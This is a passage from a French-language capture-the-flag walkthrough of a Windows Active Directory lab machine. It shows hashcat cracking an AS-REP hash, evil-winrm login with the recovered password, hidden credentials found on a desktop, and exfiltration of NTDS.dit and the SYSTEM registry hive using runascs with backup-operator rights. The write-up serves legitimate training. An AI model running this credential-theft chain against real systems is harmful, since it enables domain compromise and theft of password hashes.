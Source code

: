```
$ hashcat -m 18200 john_hash.txt /chemin/vers/wordlist.txt
```

Cela révèle le mot de passe : dragon123

### Étape 5 : Accès WinRM en tant que dragon
Avec les identifiants de dragon, nous pouvons accéder au système via WinRM :

```
$ evil-winrm -i 51.79.55.195 -u dragon -p dragon123
```

Une fois connecté, nous pouvons explorer le bureau de dragon et trouver le premier drapeau :
```
*Evil-WinRM* PS C:\Users\dragon\Desktop> type flag1.txt
FLAG{Th1s_1s_My_Sw4mp_N0w!}
```

### Étape 6 : Découverte d'identifiants cachés
Recherche de fichiers cachés sur le bureau de dragon :

```
*Evil-WinRM* PS C:\Users\dragon\Desktop> dir -Force
```

Cela révèle un fichier caché nommé .swamp_secrets.txt. En lisant ce fichier :

```
*Evil-WinRM* PS C:\Users\dragon\Desktop> type .swamp_secrets.txt
Found credentials for shrek.shrek: MHX996qm7f8FG92w
```

On peut voir que Shrek a les droits backup operator.

### Étape 7 : Découverte du fichier NTDS.dit
En explorant davantage le bureau de dragon, nous trouvons un fichier NTDS.dit :

```
*Evil-WinRM* PS C:\Users\dragon\Desktop> dir
```

Nous pouvons télécharger ce fichier sur notre machine locale :

```
*Evil-WinRM* PS C:\Users\dragon\Desktop> download ntds.dit
```

### Étape 8 : Extraction de la ruche SYSTEM
Pour extraire les hashes du fichier NTDS.dit, nous avons également besoin de la ruche SYSTEM :

```
*Evil-WinRM* PS C:\> .\runascs.exe shrek.shrek MHX996qm7f8FG92w "reg save HKLM\SYSTEM C:\Windows\Temp\system.save"
*Evil-WinRM* PS C:\> .\runascs.exe shrek.shrek MHX996qm7f8FG92w "icacls C:\Windows\Temp\system.save /grant Users:(F)"
*Evil-WinRM* PS C:\> download C:\Windows\Temp\system.save
```
